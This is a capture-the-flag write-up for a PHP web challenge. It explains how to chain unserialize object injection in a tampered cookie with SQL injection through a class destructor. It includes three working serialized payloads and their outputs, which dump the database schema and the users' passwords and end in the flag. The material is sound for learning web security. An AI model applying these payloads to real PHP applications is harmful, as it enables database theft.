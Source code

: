 Firstly because the challange said something about a not so good implementation of a garbage collector I instantly looked at the desctruct function.


```
public function destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
```


Now I saw that unlike the "legit" way the code tried to query for an id, the desctruct function doesn't sanetize the input with is_numeric.


```
if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
```


So I needed a way to reach the desctruct function, and have a SQL object with a query parameter that will get deconstructed and executed.

I then saw that the the code the first time you load it up, it initializes a "leet_hax0r" cookies with it's remote address in it that expires in a month.
If that IP in the cookie is tampered with, the code sees that and sends you to a die('CANT HACK US!!!').
I knew that must be it, I need to tamper with the IP, get sent to die and then the SQL object will be destructed and my injected query would run.
The problem is the query parameter at the time of me reaching the die function is still not initialized with my user-input
```
$sql->query = 'SELECT username FROM users WHERE id=';
```

Then I found it, I researched about different functions in the code, and I stumbled upon a known vulnerability when passing user made objects into the unserialize function.
The exploit is that exactly how you can pass an array with the 'ip' in it that is checked by the code, you can pass objects as well.
Why is this bad? because those objects get destructed as well at the end of the execution.

important note:
in the payloads you must include the ip variable and make it be wrong, so you reach the die function, without it you don't reach the die function, the query parameter is then created with your user input and my pre-made object goes to the trash.

My payloads were as follows (pre base64 encoding):
input -> a:2:{s:2:"ip";s:7:"1.1.1.1";s:3:"sql";O:3:"SQL":1:{s:5:"query";s:60:"SELECT sql as username FROM sqlite_master WHERE name='users'";}}
output -> Username: CREATE TABLE users(id int, username varchar, password varchar)
input -> a:2:{s:2:"ip";s:7:"1.1.1.1";s:3:"sql";O:3:"SQL":1:{s:5:"query";s:56:"SELECT group_concat(name) as username FROM sqlite_master";}}
output -> Username: users
input -> a:2:{s:2:"ip";s:7:"1.1.1.1";s:3:"sql";O:3:"SQL":1:{s:5:"query";s:52:"SELECT group_concat(password) as username FROM users";}}
output -> Username: WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}